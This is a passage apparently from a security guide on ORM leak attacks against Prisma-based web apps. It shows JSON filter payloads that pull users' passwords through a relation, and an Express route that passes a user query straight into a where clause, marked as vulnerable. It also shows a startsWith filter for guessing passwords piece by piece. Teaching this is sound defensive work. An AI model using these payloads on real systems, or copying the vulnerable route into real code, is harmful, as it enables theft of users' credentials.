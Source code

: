 The following one selects all the posts created by someone with a password and wil return the password:

```json
{
    "filter": {
        "select": {
            "createdBy": {
                "select": {
                    "password": true
                }
            }
        }
    }
}

// Response
[
    {
        "createdBy": {
            "password": "super secret passphrase"
        }
    },
    ...
]
```

- **Full where clause control**:

Let's take a look to this where the attack can control the `where` clause:

<pre class="language-javascript"><code class="lang-javascript">app.get('/articles', async (req, res) => {
    try {
        const posts = await prisma.article.findMany({
<strong>            where: req.query.filter as any // Vulnerable to ORM Leaks
</strong>        })
        res.json(posts);
    } catch (error) {
        res.json([]);
    }
});
</code></pre>

It's possible to filter the password of users directly like:

```javascript
await prisma.article.findMany({
  where: {
    createdBy: {
      password: {
        startsWith: "pas",
      },
    },
  },
})
```
